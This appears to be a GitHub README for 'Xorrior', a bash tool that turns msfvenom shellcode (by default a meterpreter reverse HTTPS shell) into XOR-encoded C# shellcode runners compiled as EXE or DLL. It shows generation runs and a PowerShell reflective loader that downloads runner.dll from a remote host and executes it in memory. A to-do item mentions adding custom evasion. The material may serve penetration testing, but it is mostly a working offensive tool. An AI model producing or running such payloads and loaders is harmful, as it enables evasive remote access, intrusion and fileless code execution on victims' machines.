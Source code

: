 # Xorrior

<img width="744" height="248" alt="image" src="https://github.com/user-attachments/assets/ee2c2cb2-c855-42aa-882c-b22931e65db2" />

Automating XORed Shellcode to Ready-to-Go EXE or DLL

This tool was written in bash to avoid the routine of:

1. Creating shellcode with msfvenom
2. Copying that shellcode into an XOR encoder
3. Copying the output out of the XOR encoder into a C# shellcode runner.

The tool does all of the above in a single bash script and produces file outputs in
 
 * Executable (EXE)
 
 * Dynamic Link Library (DLL)

Note: The tool requires that x86_64-w64-mingw32-g++ is installed.
```r
sudo apt update

sudo apt install g++-mingw-w64-x86-64
```


#### Example Usage: Generating an EXE
>`./xorrior.sh`

```PowerShell

Enter msfvenom payload [windows/x64/meterpreter/reverse_https]: 
Enter LHOST [tun0]: 
Enter LPORT [443]: 
Enter XOR key (decimal or 0x.. hex) [0x12]: 
Output file name [runner]: 
Output file type: exe or library (dll)? [exe]: 
[*] Generating shellcode payload...
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 754 bytes
Final size of csharp file: 3863 bytes
[*] Building EXE shellcode runner...
[*] Compiling with mcs...

[+] Success! Generated runner.exe

```


#### Example Usage: Generating a DLL
>`./xorrior.sh`

```PowerShell

Enter msfvenom payload [windows/x64/meterpreter/reverse_https]: 
Enter LHOST [tun0]: 
Enter LPORT [443]: 
Enter XOR key (decimal or 0x.. hex) [0x12]: 
Output file name [runner]:  
Output file type: exe or library (dll)? [exe]: library
[*] Generating shellcode payload...
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 806 bytes
Final size of csharp file: 4127 bytes
[*] Building DLL shellcode loader...
[*] Compiling with mcs...
runner_gen.cs(29,17): warning CS0472: The result of comparing value type `System.IntPtr' with null is always `false'
runner_gen.cs(29,30): warning CS0162: Unreachable code detected
Compilation succeeded - 2 warning(s)

[+] Success! Generated runner.dll
[*] DLL Info: Namespace = ReflectiveLoadDll, Class = Class1, Method = runner

```

Sample reflective loader to use with dll
```PowerShell
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.10.10/runner.dll') 
$assem = [System.Reflection.Assembly]::Load($data) 
$class = $assem.GetType("ReflectiveLoadDll.Class1") 
$method = $class.GetMethod("runner") 
$method.Invoke(0, $null)
```

####  To-Dos
 
 * Build Modularity into the tool to :
     *  accept different encryption and encoding types
     *  accept different C, C# templates for flexibility e.g. including custom evasion etc.
 
 

